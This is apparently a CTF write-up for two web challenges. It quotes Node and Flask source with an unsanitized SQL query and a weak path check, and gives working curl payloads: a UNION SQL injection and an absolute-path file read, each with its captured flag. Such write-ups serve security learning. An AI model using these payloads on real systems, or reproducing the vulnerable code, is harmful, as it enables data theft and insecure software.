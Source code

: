 # Web

## walters_crystal_shop


### Info

![](screenshots/nb4.png)
![](screenshots/nb7.png)



## solution:

After analysing the code source we realise that the app use Sql database it creates tables: crystals and  flag that contains the flag

```javascript
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

```

here we can see the user input it's going in the query without any sanitization so it's clear a simple sql injection:
```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```
we have the table name and the column name and we know that we have 3 columns `(name, price, quantity)` so our payload should be:

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://walters-crystal-shop.chal.nbctf.com/crystals?name=abc%27%20union%20select%20null,null,flag%20from%20flag%20--             
[{"name":null,"price":null,"quantity":"nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}"}]
```
and we got it :)


## galleria


### Info
![](screenshots/nb3.png)
![](screenshots/nb8.png)

i spent in this challenge like three hours trying to get RCE using file upload specially when i saw all ppl tryin the same

![](screenshots/nb9.png)

but then i decided to read the code source again 

## solution:

here the `check_file_path` function does not really filter the query `file` which we have full control of it

```python
def check_file_path(path):
    _path = Path(path)

    parts = [*Path.cwd().parts][1:]
    for part in _path.parts:
        if part == '.':
            continue
        if part == '..':
            parts.pop()
        else:
            parts.append(part)

        if len(parts) == 0:
            return False

    _path = os.path.join(os.getcwd(), path)
    _path = Path(_path)
    return _path.exists() and _path.is_file()
    
    
@app.route('/gallery')
def gallery():
    if request.args.get('file'):
        filename = os.path.join('uploads', request.args.get('file'))
        if not check_file_path(filename):
            return redirect(url_for('gallery'))

        return send_file(filename)

    image_files = [f for f in os.listdir(
        app.config['UPLOAD_FOLDER'])]
    return render_template('gallery.html', images=image_files)
```

also after checking the docker file :

`COPY flag.txt /tmp/flag.txt`

so our payload should be simple and not a file upload to get a RCE XD

```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/nbctf]
└─$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt                                                           
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```



